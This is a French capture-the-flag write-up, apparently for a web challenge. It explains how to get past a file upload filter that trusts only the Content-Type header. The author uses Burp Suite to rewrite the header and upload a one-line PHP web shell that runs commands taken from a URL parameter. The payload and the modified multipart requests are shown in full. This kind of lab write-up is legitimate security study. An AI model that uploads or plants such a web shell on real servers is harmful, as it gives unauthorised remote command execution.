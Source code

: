 ## 20. File upload - Type MIME

NB : only GIF, JPEG or PNG are accepted

En effet, si nous y mettons une image c’est ok, si non il nous affiche
"Wrong file type !"

Pas de problème, nous allons contourner cette protection. Qui ne semble être mise que sur le champ Content-type. Pour cela nous allons utiliser un proxy local pour changer ce champ 😉 ! Pour mon cas j’utilise Burp Suite.

Le fichier que je veux uploader est le suivant :

```php
<?php
system($_GET['command']);
?>
```

En configurant le proxy local pour écouter sur 127.0.0.1:8080, et de même pour le navigateur, nous arrivons à intercepter la requête :

```
------WebKitFormBoundaryZ8GVPDDa77REhNE9
Content-Disposition: form-data; name="file"; filename="a2.php"
Content-Type: application/octet-stream

<?php
system($_GET['command']);
?>
------WebKitFormBoundaryZ8GVPDDa77REhNE9--
```

Pour faire les choses proprement, nous allons remplacer le champ Content-Type par "image/jpeg" ou "image/gif" ou n’importe quel autre type supporté.

```
------WebKitFormBoundaryZ8GVPDDa77REhNE9
Content-Disposition: form-data; name="file"; filename="a2.php"
Content-Type: image/jpeg

<?php
system($_GET['command']);
?>
------WebKitFormBoundaryZ8GVPDDa77REhNE9--
```

Et voilà, le tour est joué, nous avons à présent compromis le serveur web (rien de méchant 😛 ).

Le nom du fichier sur le serveur nous étant donné, il ne nous reste plus qu’à essayer d’y accéder et là nous avons le flag :

```
Well done ! You can validate this challenge with the password
This file is already deleted.
```
